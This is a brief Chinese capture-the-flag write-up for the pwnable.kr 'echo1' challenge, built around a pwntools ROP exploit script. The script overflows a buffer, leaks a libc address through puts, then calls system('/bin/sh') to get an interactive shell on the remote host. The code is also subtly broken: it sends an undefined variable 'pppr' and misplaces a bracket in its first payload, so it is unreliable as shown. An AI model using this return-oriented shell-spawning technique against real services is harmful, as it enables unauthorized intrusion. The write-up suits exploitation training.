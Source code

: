 发现即使是控制4个寄存器的gadget，也只需5个字节，几乎可以满足任何需求了，有以下几种方法

#### 基于 len(asm("pop rdi; ret")) < 8

只控制一个参数，可以先通过puts来leak出libc基址，然后再控制system的参数为/bin/sh即可

```python
pwnable_echo1 [master●●] cat rop.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from time import sleep
import sys
context.os = 'linux'
context.arch = 'amd64'
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

elf = ELF("./echo1")
if sys.argv[1] == "l":
    context.log_level = "debug"
    # env = {'LD_PRELOAD': ''}
    # io = process("", env = env)
    io = process("./echo1")
    libc = elf.libc


else:
    io = remote("pwnable.kr", 9010)
    #  libc = ELF("")


def DEBUG(cmd = ""):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

if __name__ == "__main__":
    pr = asm('pop rdi;ret')
    io.sendlineafter(" : ", pppr)
    #  DEBUG("b *echo1\nc")
    io.sendlineafter("> ", "1")
    payload = flat([cyclic(0x20 + 8), elf.sym['id'], elf.got['puts'], elf.plt['puts']], elf.sym['echo1'])
    io.sendline(payload)
    libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
    success("libc.address -> {:#x}".format(libc.address))
    pause()

    payload = flat([cyclic(0x20 + 8), elf.sym['id'], next(libc.search("/bin/sh")), libc.sym['system']])
    io.sendline(payload)
    
    io.interactive()
    io.close()
```
